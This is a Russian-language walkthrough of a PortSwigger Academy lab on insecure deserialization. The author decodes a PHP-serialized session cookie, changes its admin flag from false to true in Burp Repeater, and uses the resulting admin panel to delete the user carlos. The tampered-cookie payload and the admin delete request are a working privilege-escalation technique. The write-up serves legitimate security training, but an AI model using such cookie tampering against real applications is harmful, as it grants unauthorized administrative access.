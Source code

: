 Залогинимся под `wiener:peter`

Перейлем в `Proxy` -> `HTTP history`

Увидим, что при запросе 
```
POST /login
```
в ответ нам выдает куки 
```
Set-Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d;
```
Воспользуемся панелью Inspector и разберем куки 

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

Данная конструкция может быть описана как
```
O:4:"User" - An object with the 4-character class name "User"
2 - the object has 2 attributes
s:4:"name" - The key of the first attribute is the 4-character string "name"
s:6:"carlos" - The value of the first attribute is the 6-character string "carlos"
s:10:"isLoggedIn" - The key of the second attribute is the 10-character string "isLoggedIn"
b:1 - The value of the second attribute is the boolean value true
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/1.%20Modifying%20serialized%20objects/pics%20for%20walkthrough/1.png)

Отправим запрос 
```GET /my-account?id=wiener```
в `Repeater`
и изменим 
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```
на
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```

и нажмем `apply changes`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/1.%20Modifying%20serialized%20objects/pics%20for%20walkthrough/2.png)

отправим запрос, и увидим, что нас впустило под админской панелью

на что указывает появившаяся панель `Admin panel` в графическом рендере

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/1.%20Modifying%20serialized%20objects/pics%20for%20walkthrough/3.png)

Изменим путь на `/admin`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/1.%20Modifying%20serialized%20objects/pics%20for%20walkthrough/4.png)

и удалим пользователя `carlos` как этого требует задание
```
GET /admin/delete?username=carlos
```
после всех редиректов получим уведомление об успешно выполненной лабораторной раьботе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/19.%20Insecure%20deserialization/1.%20Modifying%20serialized%20objects/pics%20for%20walkthrough/5.png)
